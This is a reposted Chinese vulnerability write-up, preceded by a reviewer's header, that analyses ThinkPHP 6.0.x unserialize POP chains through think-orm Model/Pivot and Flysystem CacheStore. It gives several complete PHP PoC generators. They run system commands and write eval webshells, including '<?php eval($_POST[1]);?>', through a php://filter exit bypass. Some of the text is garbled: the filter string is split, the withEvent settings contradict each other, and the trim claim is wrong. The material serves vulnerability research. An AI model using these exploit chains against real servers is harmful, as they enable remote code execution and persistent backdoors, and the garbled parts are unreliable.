## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：标题6.0.8，实际创建6.0.x-dev且未锁think-orm/Flysystem；明确自建unserialize

代码与实验材料：548行全文，Model update/insert两变体、CacheStore serialize回调及文件写、Flysystem Local链；全部只静态阅读

来源证据范围：作者想看云飞却没风、微信及多个原链来源

- **事实待核（1）**：标题版本不可重建；依据：6.0.x-dev浮动且组件独立更新，需锁依赖commit。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **事实待核（2）**：文件写入PoC有明显文本损坏；依据：php://filter中的base64-decode被换行拆开，影响过滤器名；未说明复制修复。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **适用与权限边界（3）**：布尔条件与路径推导自相矛盾；依据：一处称withEvent=true，其他段及代码false；拼接后的filename说明丢哈希名，expire=0却字符示例000...001。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **适用与权限边界（4）**：JSON处理说明错误风险；依据：称trim去掉\[\]，默认trim只除空白，不会移除方括号；21有效字符计数和补齐需按实际输出核验。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **事实待核（5）**：多产品多入口应独立标识；依据：ThinkORM.Model与Flysystem.AbstractCache不是一个根因，均需要额外不可信反序列化入口。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# tp6-0-8 反序列化漏洞分析

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/yNexjiUeGtCsSEXskrxXig)

**本文来自 “白帽子社区” 知识星球**

作者：想看云飞却没风

**0****1**

  

环境搭建

```
composer create-project topthink/think=6.0.x-dev thinkphp-v6.0
```

首先构造一个反序列化点 app/controller/Index.php

```
<?php
namespace app\controller;
use app\BaseController;
class Index extends BaseController {
	public function index() {
		if(isset($_POST['data'])) {
			@unserialize($_POST['data']);
		}
		highlight_string(file_get_contents(__FILE__));
	}
}
```

在 ThinkPHP5.x 的 POP 链中，入口都是 think\process\pipes\Windows 类，通过该类触发任意类的 __toString 方法。但是 ThinkPHP6.x 的代码移除了 think\process\pipes\Windows 类，而 POP 链 __toString 之后的 Gadget 仍然存在，所以我们得继续寻找可以触发 __toString 方法的点。先从起点 __destruct() 或 __wakeup 方法开始，因为它们就是 unserialize 的触发点。

**0****2**

  

寻找 __destruct 方法

我们全局搜索 __destruct() 方法，这里发现了`/vendor/topthink/think-orm/src/Model.php`中 Model 类的 __destruct 方法：

当 `$this->lazySave` 为真时，调用`save`方法，跟进`save`方法

这里对 `$this->exists` 属性进行判断，如果为`true`则调用`updateData()`方法，如果为`false`则调用`insertData()`方法。而要想到达这一步，需要先满足下面这个 if 语句：

```
if ($this->isEmpty() || false === $this->trigger('BeforeWrite'))
{
  return false;
}
```

只需 `$this->isEmpty()` 为返回`false`， `$this->trigger('BeforeWrite')` 返回 true 即可。进 `$this->isEmpty()` 方法：

```
public function isEmpty(): bool
{
  return empty($this->data);
}
```

这里 `$this->data` 不为空即可 跟进 `$this->trigger()` 方法

此处需要满足 `$this->withEvent` 为`false`之后当 `$this->exists == true` 时进入 `$this->updateData()` ；当 `$this->exists == false` 时进 入 `$this->insertData()` 。先跟进`updateData()`方法

这里下一步的利用点存在于 `$this->checkAllowFields()` 中，但是要进入并调用该函数，需要先通过 两处`if`语句：通过①处`if`语句：通过上面对`trigger()`方法的分析，我们知道需要令 `$this->withEvent == false` 即 可通过。由于前面已经绕过了`save()`方法中的`trigger()`，所以这里就不用管了。通过②处`if`语句：需要 `$data == 1` （非空）即可，所以我们跟进 `$this->getChangedData()` 方法 （位于`vendor\topthink\think-orm\src\model\concern\Attribute.php`中）看一下：

我们只需要令 `$this->force == true` 即可直接返回 `$this-data` ，而我们之前也需要设置 `$thisdata` 为非空。回到 `updateData()` 中，之后就可以成功调用到了 `$this->checkAllowFields()` ，跟 进该函数这里需要调用到 `$this->db` 方法，所以需令 `$this->field` 为空并且 `$this->schema` 也为空。

这两个字段默认为空，所以不需要管 之后进入`db`方法在该方法中使用了 . 进行字符串拼接，我们可以把 `$this->table` 或 `$this->suffix` 设置成相应的类 对象，此时通过 . 拼接便可以把类对象当做字符串，就可以触发 `__toString()` 方法了 目前为止，前半条 POP 链已经完成，即可以通过字符串拼接去调用 `__toString()` ，所以先总结一下我 们需要设置的点：

```
$this->data不为空
$this->lazySave == true
$this->withEvent == false
$this->exists == true
$this->force == true
```

调用过程如下：

```
PHP
__destruct()——>save()——>updateData()——>checkAllowFields()——>db()——>$this->table .
$this->suffix（字符串拼接）——>toString()
```

**0****3**

  

寻找 __toString() 方法

既然前半条 POP 链已经能够触发 `__toString()` 了，下面就是寻找利用点。这次漏洞的`__toString()` 利用点位于 `vendor\topthink\think-orm\src\model\concern\Conversion.php` 中名为`Conversion` 的`trait`中：

```
public function __toString()
{
  return $this->toJson();
}
```

跟进 `toJson`

```
public function toJson(int $options = JSON_UNESCAPED_UNICODE): string
{
  return json_encode($this->toArray(), $options);
}
```

跟进`toArray`

跟进 `getAttr()`

先看返回值 的 `$this->getValue`这里的

```
$closure = $this->withAttr[$fieldName];
$value = $closure($value, $this->data);
```

注意看这里，我们是可以控制 `$this->withAttr` 的，那么就等同于控制了 `$closure` 可以作为动态函 数，执行命令。根据这个点，我们来构造`pop`。



**0****4**

  

POP 链构造

入口点在 `src/Model.php` 的 `__destruct` ，我们需要控制 `$this->lazySave` 为真来进入`if`循环调用`save`函数在`save`函数中需要使 `$this->isEmpty()` 为`false`，也就是 `$this->data` 不为空，并且 `$this->trigger`为`true`，也就是 `$this->withEvent` 为`true`，该属性在 `src/model/concern/ModelEvent.php` 中。之后 再使 `$this->exists` 为`true`即可进入`updateData`方法



进入了`updateDate`方法之后，由于前面的 `$this->trigger` 已经为`true`，只需要 `$data` 不为空即可调 用 `$this->checkAllowFields()` 方法，也就是 `src/model/concern/Attribute.php` 里的`getChangedDate`方法不为空



在`getChangedDate`中，如果 `$this->force 为true`，则直接返回 `$this->date` ，而 `$this->data` 前面 已经不为空了

所以要想进入 checkAllowFields 方法，需要满足下满的条件

```
$this->lazySave == true
$this->data不为空
$this->withEvent == false
$this->exists == true
$this->force == true
```

`model` 类是复用了 `trait` 类 的，可以访问其属性，和方法。`Model` 类 是抽象类，不能被实例化，所 以我们还需要找到其子类。`Pivot` 类就是我们需要找的类。现在已经成功执行到了 `$this->checkAllowFields()` ，还得进入 `$this->db()`



这里只需要 field 为空， " data-formula-type="inline-equation">为空，this->schema 也为空即可进入 db 方法

将 `$this->name` 或 `$this->suffix` 设置为含有 `__toString` 的类对象就可以触发此魔术方法 这里注意的是，我们需要触发 `__toString` 的类 是 `conversion` 类 而这个类是 `trait` 类， 而当前的`model` 类是 复用了 `conversion` 类的，所以我们相当于重新调用一遍 `Pivot` 类。也就是重新调用一下 自己，触发自己的的 `__toString` 方法 调用 `__toString` 方法的`poc`

```
<?php
namespace think\model\concern;
trait Attribute {
	private $data=['456'=>'123'];
}
trait ModelEvent {
	protected $withEvent = true;
}
namespace think;
abstract class Model {
	use model\concern\Attribute;
	use model\concern\ModelEvent;
	private $exists;
	private $force;
	private $lazySave;
	protected $suffix;
	function __construct($a = '') {
		$this->exists = true;
		$this->force = true;
		$this->lazySave = true;
		$this->withEvent = false;
		$this->suffix = $a;
	}
}
namespace think\model;
use think\Model;
class Pivot extends Model {
}
echo urlencode(serialize(new Pivot(new Pivot())));
?>
```

之后便是 `__toString` 的构造了，在 `vendor/topthink/thinkorm/src/model/concern/Conversion.php` 里面。首先是进入 `toJson`

然后调用 `toArray`

在`toArray`中会调用`getAttr`

前面两个 `foreach` 不做处理，再下来这个 `foreach` 会进入最后一个 `if`分支 ，调用 `getAttr` 方法。这个`foreach` 是遍历 `$this->data` ，然后将 `$data` 的 `$key` 传入 `getAttr`该函数是在 `src/model/concern/Attribute.php` 中

然候会进入`getValue`

我们只需要将 `$closure` 设置为 `system` 等函数即可执行任意命令，也就是 `$this->withAttr[$fieldName]` ， 也就是 `$this->withAttr[$this->getRealFieldName($name)]`

其中 `$this->strict` 默认为`true`，如果将 `$this->convertNameToCamel` 设置为`false`，则会直接返回`$name`所以就相当于 `$this->withAttr[$name]` 为一个命令执行函数， `$name` 就是`getAttr`中的 `$key` ，也就是`$data` 的键值

其中参数值就是 `$this->getData($name)`

相当于`data`数组中的键值。`withAttr`数组中的键值为函数，`data`数组中的键值为参数，并且键名需要相同

**0****5**

  

命令执行 POC1

```
<?php
namespace think\model\concern;
trait Attribute {
	private $data=['cyz'=>'whoami'];
	private $withAttr=['cyz'=>'system'];
}
trait ModelEvent {
	protected $withEvent = true;
}
namespace think;
abstract class Model {
	use model\concern\Attribute;
	use model\concern\ModelEvent;
	private $exists;
	private $force;
	private $lazySave;
	protected $suffix;
	function __construct($a = '') {
		$this->exists = true;
		$this->force = true;
		$this->lazySave = true;
		$this->withEvent = false;
		$this->suffix = $a;
	}
}
namespace think\model;
use think\Model;
class Pivot extends Model {
}
echo urlencode(serialize(new Pivot(new Pivot())));
?>
```



**0****6**

  

命令执行 POC2

也可以直接令`$this->exists = false`;，进入`insertData`方法，直接调用`db`  

```
<?php
namespace think\model\concern;
trait Attribute {
	private $data=['cyz'=>'whoami'];
	private $withAttr=['cyz'=>'system'];
}
trait ModelEvent {
	protected $withEvent = true;
}
namespace think;
abstract class Model {
	use model\concern\Attribute;
	use model\concern\ModelEvent;
	private $exists;
	private $lazySave;
	protected $suffix;
	function __construct($a = '') {
		$this->exists = false;
		$this->lazySave = true;
		$this->withEvent = false;
		$this->suffix = $a;
	}
}
namespace think\model;
use think\Model;
class Pivot extends Model {
}
echo urlencode(serialize(new Pivot(new Pivot())));
?>
```

**0****6**

  

其他利用链

**寻找__destruct 方法**

在 `vendor/league/flysystem-cached-adapter/src/Storage/AbstractCache.php` 文件中找到个可 以利用的 `__destruct` 方法

当 `$this->autosave` 为`false`时进入`save`方法 进入 `save` 函数，发现并没有实现什么功能，所以我们需要寻找 `AbstractCache` 类的子类有没有实现该 函数 在 `src/think/filesystem/CacheStore.php` 中存在符合条件的子类

这里 `$this->store` 可控，所以我们可以触发任意类的 `set` 方法，只要找到任意类存在危险操作的 `set`方法即可利用 跟进`getForStorage`函数`$this->cache` 可控， `$this->complete` 可控，因此 `$contents` 可控，只不过经过一次`json`编码



**寻找危险的 set 方法**

在 `vendor/topthink/framework/src/think/cache/driver/File.php` 中存在符合条件的`set`方法

```
public function set($name, $value, $expire = null): bool {
	$this->writeTimes++;
	if (is_null($expire)) {
		$expire = $this->options['expire'];
	}
	$expire = $this->getExpireTime($expire);
	$filename = $this->getCacheKey($name);
	$dir = dirname($filename);
	if (!is_dir($dir)) {
		try {
			mkdir($dir, 0755, true);
		}
		catch (\Exception $e) {
			// 创建失败
		}
	}
	$data = $this->serialize($value);
	if ($this->options['data_compress'] && function_exists('gzcompress')) {
		//数据压缩
		$data = gzcompress($data, 3);
	}
	$data = "<?php\n//" . sprintf('%012d', $expire) . "\n exit();?>\n" .
	$data;
	$result = file_put_contents($filename, $data);
	if ($result) {
		clearstatcache();
		return true;
	}
	return false;
}
```

`$this->getExpireTime($expire)` 是返回一个整数，跟进`getCacheKey`

`$this->options` 可控，所以 `getCacheKey` 返回的值可控 跟进一下`serialize`

`$this->options['serialize'][0]` 可控， `$serialize` 可控， `$data` 为我们传入 `set` 函数的`$value` ，也就是 `$this->store->set($this->key, $contents, $this->expire);` 中的 `$content` ， 是可控的。只不过此时 `$data` 经过`json`编码 所以这里可以构造动态代码执行

**POC1**

```
<?php
namespace League\Flysystem\Cached\Storage;
abstract class AbstractCache {
}
namespace think\cache;
use think\cache\Driver;
abstract class Driver {
}
namespace think\cache\driver;
use think\cache\driver;
class File extends Driver {
	protected $options = [];
	public function __construct() {
		$this->options = [
		'expire' => 0,
		'cache_subdir' => false,
		'prefix' => '',
		'path' => '',
		'hash_type' => 'md5',
		'data_compress' => false,
		'tag_prefix' => 'tag:',
		'serialize'=> ['system']
		];
	}
}
namespace think\filesystem;
use League\Flysystem\Cached\Storage\AbstractCache;
class CacheStore extends AbstractCache {
	protected $store;
	protected $key;
	protected $autosave;
	protected $complete;
	public function __construct($store) {
		$this->autosave = false;
		$this->key = "1";
		$this->complete = '`sleep 10`';
		$this->store = $store;
	}
}
use think\cache\driver\file;
$a = new CacheStore(new File());
echo serialize($a);
echo "</br>";
echo urlencode(serialize($a));
?>
```

这里成功调用了`system`命令，在`linux`中可以使用反引号来进行无回显的命令执行

继续往下会看到一个任意文件写入

```
$data = "<?php\n//" . sprintf('%012d', $expire) . "\n exit();?>\n" . $data;
$result = file_put_contents($filename, $data);
```

经典 “死亡 exit”，可以伪协议绕过，最后文件名是 `$key` 的 md5

```
$name = hash($this->options['hash_type'], $name);
```

`$name` 为文件名，来源于`$this->key`，可控，`$this->options['hash_type']`也可控。

最终文件名是经过`hash`后的，所以最终文件名可控（本文演示 POC 中`$key = "1"，$this->options['hash_type'] = 'md5'`， 所以最终文件名为 1 的 md5 值）。

`$this->options['path']` 使用`php filter`构造 `php://filter/write=convert.base64- decode/resource=think/public/` 指向 tp6 根目录 最终拼接后的`$filename` 为`php://filter/write=convert.base64-decode/resource=./`

此外，为了确保 php 伪协议进行`base64`解码之后我们的 shell 不受影响，所以要计算解码前的字符数。

假设传入的`$expire=0`，那么 shell 前面部分在拼接之后能够被解码的有效字符为：`php//000000000001exit`共有 21 个，要满足`base64`解码的 4 字符为 1 组的规则，在其前面补上 3 个字符用 于逃逸之后的`base64`解码的影响。

但是实际上会少一个`<`所以在`base64`编码的时候需要使用两个 `<<`



**POC2**

`https://www.heibai.org/1604.html`

`https://www.cnblogs.com/20175211lyz/p/13639789.html`

`https://new.qq.com/omn/20200629/20200629A0RG1800.html`

```
<?php
namespace League\Flysystem\Cached\Storage;
abstract class AbstractCache {
}
namespace think\cache;
use think\cache\Driver;
abstract class Driver {
}
namespace think\cache\driver;
use think\cache\driver;
class File extends Driver {
	protected $options = [];
	public function __construct() {
		$this->options = [
		'expire' => 0,
		'cache_subdir' => false,
		'prefix' => '',
		'path' => 'php://filter/write=convert.base64-
decode/resource=./',
		'hash_type' => 'md5',
		'data_compress' => false,
		'tag_prefix' => 'tag:',
		'serialize'=> ['trim'] //使用trim去掉[]
		];
	}
}
namespace think\filesystem;
use League\Flysystem\Cached\Storage\AbstractCache;
class CacheStore extends AbstractCache {
	protected $store;
	protected $key;
	protected $autosave;
	protected $complete;
	public function __construct($store) {
		$this->autosave = false;
		$this->key = "1";
		$this->complete = 'uuuPDw/cGhwIHBocGluZm8oKTtldmFsKCRfR0VUWzFdKTs/PiA=';
		$this->store = $store;
	}
}
use think\cache\driver\file;
$a = new CacheStore(new File());
echo serialize($a);
echo "</br>";
echo urlencode(serialize($a));
?>
```



**POC3**

`https://yq1ng.github.io/z_post/ctfshow-thinkphp%E4%B8%93%E9%A2%98/`

```
/**
* @Author ying
* @Date 8/20/2021 5:01 PM
* @Version 1.0
*/
namespace League\Flysystem\Cached\Storage {
	use League\Flysystem\Adapter\Local;
	class Adapter {
		protected $autosave = true;
		protected $expire = null;
		protected $adapter;
		protected $file;
		public function __construct() {
			$this->autosave = false;
			$this->expire = '<?php eval($_POST[1]);?>';
			$this->adapter = new Local();
			$this->file = 'yq1ng.php';
		}
	}
}
namespace League\Flysystem\Adapter {
	class Local {
	}
}
namespace {
	use League\Flysystem\Cached\Storage\Adapter;
	echo urlencode(serialize(new Adapter()));
}
```

如果觉得本文不错的话，欢迎加入知识星球，星球内部设立了多个技术版块，目前涵盖 “WEB 安全”、“内网渗透”、“CTF 技术区”、“漏洞分析”、“工具分享” 五大类，还可以与嘉宾大佬们接触，在线答疑、互相探讨。

  

**@**

白帽子社区知识星球 & 白帽子社区公众号


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
